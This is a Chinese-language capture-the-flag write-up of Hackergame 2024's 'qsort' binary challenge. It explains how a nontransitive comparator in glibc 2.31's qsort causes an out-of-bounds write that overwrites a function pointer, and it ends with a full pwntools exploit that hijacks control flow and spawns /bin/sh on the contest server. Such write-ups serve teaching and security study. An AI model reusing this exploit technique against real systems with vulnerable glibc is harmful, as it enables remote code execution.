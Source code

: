 # 我们的快排確有問題

题解作者：[eastXueLian](https://github.com/AvavaAYA)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：binary

- 题目分值：250

不愿意接受 glibc `qsort()` 的同学，不用来填写（GPA），你们不会受到任何處分！

---

**[点击下载题目附件](files/sort_ur_jipei.zip)**

附件运行不起来？可能是 glibc 版本的问题！使用 `patchelf --replace-needed libc.so.6 ./libc-2.31.so ./sort_ur_jipei && patchelf --set-interpreter ./ld-2.31.so ./sort_ur_jipei` 试试。

你需要运行 `/1w4tch` 来获得 flag。

你可以通过 `nc 202.38.93.141 31341` 来连接，或者点击下面的「打开/下载题目」按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

[打开/下载题目](http://202.38.93.141:31342/?token={token})

## 题解

本题的 idea 和文案设计是 [@taoky](https://github.com/taoky) 提供的。我做了实现。

题目提供了源码，主要逻辑都在 `main` 函数中，调用 GLIBC 里的 `qsort` 进行了两次排序。从源码来看不存在明显的漏洞 ~~（希望如此）~~，尽管有一个危险的函数指针，但是在内存中被放在排序数组之前，看起来很难篡改：

```c
struct {
        int (*sort_func)(const void *const, const void *const);
        double temp_sort_array[MAX_STU_NUM];
} gms;
```

通过搜索、测试或者~~阅读 GLIBC 源码~~等不同方法都能很快地找到漏洞：

1. 注意到排序函数 `whos_jipiei_is_better` 非常奇怪，例如传入 `a=1.0` 和 `b=4.3` 就会得到 `a<b` 且 `b<a` 的结果，即这是一个非对称也非传递的比较函数。很多情况下非传递的比较函数会影响排序算法的正确性，因此怀疑 GLIBC 的 `qsort` 函数在这种情况下存在越界行为，可以在网上搜索得到 [For the algorithm lovers: Nontransitive comparison functions lead to
out-of-bounds read & write in glibc's qsort()](https://www.qualys.com/2024/01/30/qsort.txt) 这篇来自 [Qualys](https://www.qualys.com/) 的高质量 Write-Up。进行简单阅读后可以对比发现题目 GLIBC 版本小于 2.39、比较函数是非传递的、`malloc` 函数被劫持且始终会返回 `NULL`，均满足漏洞触发条件。
2. 输入一串 `1.0`（数量需要大于 0x80），发现出现了段错误，进行调试注意到 `gms` 结构体中的函数指针居然变成了输入的数据！于是获得控制流劫持的能力。
3. 找到对应版本的 [GLIBC 源码](https://elixir.bootlin.com/glibc/glibc-2.31/source/stdlib/msort.c#L224)，定位到 `qsort` 函数的实现，得到如下惊人的结论：`qsort` 内部实现不是真正意义上的快排，其中优先分配一块内存来进行非原地的归并排序，只有内存分配失败才会进到 `_quicksort` 函数中进行原地排序，其中若遇到了非传递的比较函数则会出现越界写。即下列实现中 `tmp_ptr` 可能出现小于 `base_ptr` 的情况，出现往低地址的越界写：

```c
void
_quicksort (void *const pbase, size_t total_elems, size_t size,
            __compar_d_fn_t cmp, void *arg)
{
  char *base_ptr = (char *) pbase;

    // ...

    char *tmp_ptr = base_ptr;

    // ...

    for (run_ptr = tmp_ptr + size; run_ptr <= thresh; run_ptr += size)
      if ((*cmp) ((void *) run_ptr, (void *) tmp_ptr, arg) < 0)
        tmp_ptr = run_ptr;

    if (tmp_ptr != base_ptr)
      SWAP (tmp_ptr, base_ptr, size);

    run_ptr = base_ptr + size;
    while ((run_ptr += size) <= end_ptr)
      {
        tmp_ptr = run_ptr - size;
        while ((*cmp) ((void *) run_ptr, (void *) tmp_ptr, arg) < 0)
          tmp_ptr -= size;

      }

}
```

现在就可以劫持比较函数为 `doredolaso` 函数地址。最后再结合调试可以得到下次调用比较函数时寄存器内的数据，在数组中布置后门函数地址和 `b"/bin/sh\x00"` 字符串控制 `system` 函数的参数并拿到 shell。

完整利用代码如下：

```python
#!/usr/bin/env python3
# 傳自我的馬克布克

from pwn import *

context.log_level = "info"
context.arch = "amd64"

io = remote("202.38.93.141", 31341)

JOP_gadget = 0x4011DD
GET_my_hwatch_addr = 0x401201

io.recvline()
io.sendline(input("Input your token: ").encode())


def i64tof64(int_value):
    bytes_value = struct.pack("<Q", int_value)
    double_value = struct.unpack("<d", bytes_value)[0]
    return double_value


def f64toi64(double_value):
    bytes_value = struct.pack("<d", double_value)
    int_value = struct.unpack("<Q", bytes_value)[0]
    return int_value


io.recvuntil(":\n".encode())
io.sendline(str(0x100).encode())

stu_list = [4.3 for i in range(0x100)]
stu_list[0x10] = i64tof64(JOP_gadget)

io.recvuntil(":\n".encode())
for i in stu_list:
    io.sendline(str(i).encode())

io.recvuntil(b"...\n")
io.sendline(str(i64tof64(GET_my_hwatch_addr)).encode())
for _ in range(0x100 - 1):
    io.sendline(str(i64tof64(u64(b"/bin/sh\x00"))).encode())

io.interactive()
```
